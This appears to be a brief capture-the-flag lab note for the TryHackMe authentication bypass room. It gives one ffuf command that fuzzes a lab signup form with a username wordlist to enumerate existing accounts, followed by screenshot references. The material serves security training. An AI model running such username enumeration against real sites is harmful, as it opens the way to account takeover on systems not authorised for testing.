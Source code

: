 https://tryhackme.com/room/authenticationbypass
command bellow will output all username that are a match in the wordlist provided (names.txt) 
           
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.18.108/customers/signup -mr "username already exists"`


<figure><img src=".gitbook/assets/Captussre.JPG" alt=""><figcaption></figcaption></figure>

![Capture](https://github.com/user-attachments/assets/aaf91c04-0a23-4948-a1b5-d01b34b30dec)
